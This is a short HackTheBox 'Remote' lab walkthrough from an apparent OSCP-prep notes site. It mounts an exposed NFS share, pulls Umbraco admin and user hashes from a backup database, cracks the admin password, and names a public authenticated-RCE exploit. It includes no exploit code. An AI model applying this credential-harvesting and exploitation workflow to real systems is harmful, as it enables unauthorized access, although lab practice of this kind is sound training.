

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/HackTheBox/Remote/index.html · generator: mkdocs

# Remote

We find a network file system
![[Pasted image 20220713093249.png]]

Make a directory for it

```
mkdir site_backups
```

and mount it

```
sudo mount -t nfs 
```

There are a bunch of files. These appear to be the backup files for umbro CMS.

![[Pasted image 20220713093325.png]]

We find some interesting content in App_data/Umbraco.sdf

```
strings Umbraco.sdf | head -n 20
```

```
Administratoradmindefaulten-US                                                                                 
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                             
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

We have the following username/hash combos

```
admin:b8be16afba8c314ad33d812f22a04991b90e2aaa (SHA1)
smith:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= (HMACSHA256)
ssmith:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= (HMACSHA256)

```

We're able to crack admin's hash using crackstation
![[Pasted image 20220713101041.png]]

`admin:baconandcheese`

We can now log in, but need to use the admin's email: `admin@htb.local`

Now we can use EDB-49488 which grants RCE through Umbraco with credentials.
